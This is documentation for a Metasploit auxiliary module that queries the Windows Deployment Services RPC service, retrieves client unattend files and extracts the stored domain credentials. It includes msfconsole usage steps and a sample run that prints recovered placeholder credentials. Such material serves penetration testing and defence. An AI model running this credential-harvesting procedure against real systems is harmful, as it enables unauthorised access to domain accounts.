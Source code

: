 ## Vulnerable Application

This module retrieves the client unattend file from Windows Deployment Services RPC service and parses out the stored credentials. Tested against Windows 2008 R2 x64 and Windows 2003 x86.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/dcerpc/windows_deployment_services) and pull request #1420 (https://github.com/rapid7/metasploit-framework/pull/1420).

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/dcerpc/windows_deployment_services`
  3. Do: `show options`
    ...show and set options...
  4. Do: `run`

## Scenarios

  ```
  msf > use modules/auxiliary/scanner/dcerpc/windows_deployment_services
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > show options
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > set RHOST 192.168.5.1
  msf auxiliary(scanner/dcerpc/windows_deployment_services) > run

    [*] Binding to 1A927394-352E-4553-AE3F-7CF4AAFCA620:1.0:71710533-beba-4937-8319-b5dbef9ccc36:1@ncacn_ip_tcp:192.168.5.1[5040] ...
    [+] Bound to 1A927394-352E-4553-AE3F-7CF4AAFCA620:1.0:71710533-beba-4937-8319-b5dbef9ccc36:1@ncacn_ip_tcp:192.168.5.1[5040]
    [*] Sending X64 Client Unattend request ...
    [*] Raw version of X64 saved as: C:/Documents and Settings/user/.msf5/loot/20121213104745_default_192.168.5.1_windows.unattend_399005.txt
    [+] Retrieved wds credentials for X64
    [*] Sending X86 Client Unattend request ...
    [*] Sending IA64 Client Unattend request ...

      Windows Deployment Services
      ===========================

      Architecture  Type  Domain        Username  Password
      ------------  ----  ------        --------  --------
      X64           wds   Fabrikam.com  username  my_password

    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
